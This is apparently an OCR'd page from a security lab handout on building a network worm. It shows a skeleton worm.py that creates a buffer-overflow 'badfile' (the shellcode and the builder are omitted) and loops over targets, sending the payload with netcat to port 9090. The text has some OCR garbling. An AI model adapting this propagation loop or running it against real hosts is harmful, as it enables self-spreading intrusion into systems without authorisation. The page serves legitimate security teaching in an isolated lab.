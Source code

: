 We provide a skeleton code in theLabsetup/wormfolder. We will complete this code gradually, one
thing at a time in each task. In this task, we focus on completing thecreateBadfile()function, which
is to generate the malicious payload for the buffer-overflow attack. We will launch this attack against our first
target. We can choose any host as our first target. In the code, we have hard-coded the target10.151.0.
(Line¿). Students should feel free to change it. In a later task, we will generate the target IP address, instead
of hard-coding one.
To help visualize the attack, we let the worm run a ping command in the background once it successfully
gets into a victim host (see Line¡). This command sends out an ICMP echo message to a non-existing
machine every 2 seconds. Our Map application will flash the node after seeing its ICMP messages. That is
just one way to visualize the compromised hosts.

Listing 1: The attack code:worm.py
shellcode= (
... code omitted (will be discussed later) ...
).encode(’latin-1’)

# Find the next victim (return an IP address)
def getNextTarget():
return ’10.151.0.71’ ¿

# Create the badfile (the malicious payload)
def createBadfile():
... code omitted (will be discussed later) ...

############################################################
print("The worm has arrived on this host ˆ_ˆ", flush=True)

# Run the ping program in the background
subprocess.Popen(["ping -q -i2 1.2.3.4"], shell=True) ¡

# Create the badfile
createBadfile()

while True:
targetIP = getNextTarget()

```
# Send the malicious payload (smaller payload) to the target host
# This is done via exploiting the server’s vulnerability
# It will block until the command exits
subprocess.run([f"cat badfile | nc -w3 {targetIP} 9090"],
shell=True, stdin=None, close_fds=True)
```
```
# Sleep for 1000 seconds before attacking another host
# We will reduce this value later
time.sleep(1000)
```
